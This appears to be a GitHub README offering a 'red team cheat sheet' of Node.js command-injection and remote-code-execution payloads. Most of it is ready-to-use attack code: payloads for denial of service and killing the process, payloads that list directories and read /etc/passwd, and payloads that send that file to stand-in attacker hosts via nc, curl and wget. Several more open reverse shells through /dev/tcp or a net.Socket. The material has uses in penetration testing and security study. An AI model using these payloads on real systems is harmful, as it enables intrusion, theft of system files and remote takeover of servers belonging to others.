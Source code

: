 # NodeJS Red Team Cheat Sheet

A curated list of NodeJs Command Injection / RCE Payloads.

### Know the evil functions
`eval()`,`setTimeout()`,`setInterval()`, `Function()`, `unserialize()`

### Know your weapons
`fs` , `child_process`, `net`, `http`

`spawn` = returns a stream, returns huge binary data to Node

`exec` = returns a buffer, should be used to return status

### Attack Vectors

Denial of Service
```javascript
while(1)
```
Exit the running process
```javascript
process.exit()
```

Kill Process
```javascript
process.kill(process.pid)
```

Read current working directory
```javascript
res.end(require('fs').readdirSync('.').toString())
```

Read previous directory
```javascript
res.end(require('fs').readdirSync('..').toString())
```

Read file
```javascript
res.end(require('fs').readFileSync(fname))
```
Spawn Magic ( by [@aaditya_purani](https://twitter.com/aaditya_purani))
```javascript
require('child_process').spawn('ls',['-a']).stdout.on('data', function (data) {console.log('own'+ data); });
```
Child exec ( by [@artsploit](https://twitter.com/artsploit) )
```javascript
require('child_process').exec('cat+/etc/passwd+|+nc+attackerip+80')
```

```javascript
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
```

```javascript
require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+attackersip.com')
```
Wget post data (by [@brutelogic](https://twitter.com/brutelogic))
```javascript
require('child_process').exec('wget+--post-data+"x=$(cat+/etc/passwd)"+HOST')
```

Using net (by [ibreak.software](http://ibreak.software))
```javascript
var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"attackerip",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Using arguments[1] as response object (by [@OrhanAlbay](https://twitter.com/OrhanAlbay))
```javascript
arguments[1].end(require('child_process').execSync('whoami'))
```
```javascript
arguments[1].end(require('child_process').execSync('cat /etc/passwd'))
```

### Need More ?
Repository would be mainted time to time. Feel free to contribute.

### Contact
[@aaditya_purani](https://twitter.com/aaditya_purani)
